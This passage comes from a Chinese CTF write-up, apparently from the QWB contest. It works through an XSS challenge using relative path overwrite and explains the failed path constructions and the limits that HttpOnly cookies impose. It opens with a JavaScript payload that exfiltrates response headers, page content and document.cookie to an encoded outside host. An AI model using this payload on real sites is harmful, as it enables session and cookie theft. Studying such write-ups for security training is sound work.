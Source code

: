 ```javascript
var a = new XMLHttpRequest();
a.open(decode(sget), decode(sindex),false);
a.send(null);
if(a.status == 200){
    window.open(decode(shttp)+escape(a.getAllResponseHeaders())+a.responseText+escape(document.URL)+document.cookie);
}
```

#### 通过RPO构造路径

希望构造一个/QWB_fl4g/QWB/路径下的RPO，但只构造出如下：

```
http://39.107.33.96:20000/QWB_fl4g/QWB/..%2f..%2findex.php%2fview%2farticle%2f705/a/..%2f..%2f..%2f
```

服务端正确解释%2f，仍为加载攻击载荷的view页面

```
http://39.107.33.96:20000/QWB_fl4g/QWB/../../index.php/view/article/705/a/../../../
```

浏览器认为的路径是：

```
QWB_fl4g/
QWB/
..%2f..%2findex.php%2fview%2farticle%2f705/
a/
..%2f..%2f..%2f

```

虽然是QWB_fl4g/QWB/的子目录，但也无法得到父目录的cookie。不成功的原因是因为/a/这两个斜杠必须存在，如果改成如下：

```
http://39.107.33.96:20000/QWB_fl4g/QWB/..%2f..%2findex.php%2fview%2farticle%2f705%2fa%2f..%2f..%2f..%2f
```

虽然路径正确了，但加载js的路径就变为：

```
http://39.107.33.96:20000/QWB_fl4g/static/js/jquery.min.js
```

无法触发攻击载荷，此路不通！


#### phpinfo

本题里没有找到phpinfo，但就算找到也需要是在/QWB_fl4g/QWB/路径下的phpinfo。但对于设置了http-only的cookie，无法用js通过document读取的，所以要想办法获取到http的头，如果当前网站存在phpinfo，可以用xss去打xss然后返回结果就好了！

参考：[【碎雪】day-05 浅入深出的xss](https://www.xctf.org.cn/library/details/016d1a045cca3470244f7fda0e3ab5087b63d6dd/)


#### PhantomJs的黑魔法？
